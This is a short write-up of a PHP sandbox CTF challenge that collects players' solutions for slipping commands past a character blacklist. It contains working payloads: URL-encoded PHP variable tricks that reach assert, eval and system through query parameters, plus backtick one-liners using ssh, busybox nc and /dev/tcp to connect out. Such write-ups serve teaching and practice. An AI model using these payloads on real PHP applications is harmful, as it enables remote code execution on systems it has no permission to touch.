

# URL
[l4w.pw/🤔/](http://l4w.pw/🤔/)

# Type
PHP CTF-style challenge.

How to construct command following the rules.

Trick to run weird command or abusing PHP syntax.

# Solution
This challenge came by when I was solving a PHP sandbox challenge which has limited characters/blacklist functions/...

I left backstick, to see amazing tricks from you guys.

All of them can be found at: [writeup](writeup)

There are serveral solutions:
### Abusing backstick:
* Create a temporary file containing chunks (by using: printf/echo/...)
* Run the file, to connect localhost:8888 (using python or bash with /dev/tcp/...)
* See nyan/orange/kaibro/pablo sol.(there is one-line sol)
* shout out to nyan for the full details [writeup](writeup/nyan.pdf).


### Abusing ssh / busybox
It ... surprised me 
* ```die(`ssh -v 0 -p 888\%0a8 2>&1`);```
* ```die(`bus\yb\ox nc 0:888\8`);```
* Using `ssh` and blackslash (See `huyphan` sol)


### PHP syntax abusing
By using bitwise `&`, we can make a string following the rule regexp `\w{4}`, then use `{` as a name of variable `${}`, also access array index `$array{index}`
* `http://l4w.pw/%F0%9F%A4%94/?%E2%81%A3=$a=${_GE%d4%26_GE%7f};$a{0}($a{1});&0=assert&1=eval($_GET[2]);&2=echo%20123;`
* Also see kad96/fa_boy/tsu solutions.
* `http://l4w.pw/🤔/index.php?0=system&1=busybox nc 127.0.0.1 8888&%E2%81%A3=$b=_GE;$b{3}=T;$$b{0}($$b{1});` (From tiengiang, looks like he's the first one who found out `busybox` can be used...)
